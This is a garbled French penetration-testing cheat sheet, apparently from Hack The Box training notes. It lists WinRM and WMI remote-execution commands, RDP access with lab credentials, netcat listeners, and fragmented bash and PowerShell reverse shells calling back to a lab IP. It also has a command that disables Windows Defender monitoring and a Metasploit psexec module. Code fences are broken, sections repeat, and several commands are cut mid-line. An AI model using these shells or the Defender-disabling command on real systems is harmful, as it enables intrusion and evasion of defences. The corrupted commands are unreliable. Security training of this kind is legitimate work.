 ```shell
### Exécuter une commande en utilisant le service WMI
```bash
`wmiexec.py <user>:"<password>"@<FQDN/IP> "<system command>"`
```shell
#### WinRM

### Analyse du service WinRM
```bash
`nmap -sV -sC $ip -p5985,5986 --disable-arp-ping -n`
```shell
### Se connecter au serveur WinRM
```bash
`evil-winrm -i <FQDN/IP> -u <user> -p <password>`
```shell
#### Windows Management Instrumentation (WMI)

### Se connecter au serveur WinRM
```bash
`evil-winrm -i <FQDN/IP> -u <user> -p <password>`
```shell
### Exécuter une commande en utilisant le service WMI
```bash
`wmiexec.py <user>:"<password>"@<FQDN/IP> "<system command>"`
```shell
## Shells & Payloads

### Outil en ligne de commande utilisé pour se connecter à une cible Windows via le protocole RDP
```bash
`xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!`
```shell
### Fonctionne avec différents interpréteurs de commandes pour découvrir les variables d'environnement d'un système. C'est un excellent moyen de déterminer quel langage de shell est utilisé
```bash
`env`
```shell
### Démarre un écouteur netcat sur un port spécifié
```bash
`sudo nc -lvnp <port #>`
```shell
### Se connecte à un écouteur netcat à l'adresse IP et au port spécifiés
```bash
`nc -nv <ip address of computer with listener started><port being listened on>`
```shell
### /bin/bash -i 2>&1 \
```bash
`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f \
```shell
### %{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 \
```bash
`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535\
```shell
### Commande Powershell utilisée pour désactiver la surveillance en temps réel dans Windows Defender
```bash
`Set-MpPreference -DisableRealtimeMonitoring $true`
```shell
### Module d'exploit Metasploit qui peut être utilisé sur un système Windows vulnérable pour établir une session shell en utilisant smb & psexec
```bash
`use exploit/windows/smb/psexec`
```shell
### Commande utilisée dans une session shell meterpreter pour accéder à un shell système
```bash
`shell`
```shell
### Commande MSFvenom utilisée pour générer un payload stageless de shell inverse basé sur Linux
```bash
```